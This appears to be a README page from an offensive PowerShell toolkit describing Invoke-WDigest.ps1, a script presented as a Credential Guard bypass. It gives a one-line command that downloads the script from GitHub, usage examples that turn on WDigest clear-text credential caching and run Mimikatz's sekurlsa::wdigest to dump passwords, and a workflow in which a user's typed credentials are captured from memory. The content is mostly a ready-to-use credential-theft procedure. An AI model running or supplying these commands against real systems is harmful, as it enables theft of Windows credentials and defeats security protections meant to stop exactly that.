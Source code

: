 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq, @BenjaminDelpy|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Execute M[i]mika[t]z (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -mimicats

#  Ativate WDigest caching + Execute M[i]mika[t]z sekurlsa::wdigest
.\Invoke-WDigest.ps1 -wdigest 'true' -mimicats

[FAST DEMONSTRATION]

## Ativate WDigest caching + dump credentials
.\Invoke-WDigest.ps1 -WDigest 'true' -mimicats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
   - WDigest will store credential input by user in clear-text in memory
   - mimikatz will auto-execute 'sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch exists for demonstration effects, and can not be
   used remotely because it requires target user interaction (prompt cred)
   and resource UserName password knowledge ..
```

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.png)
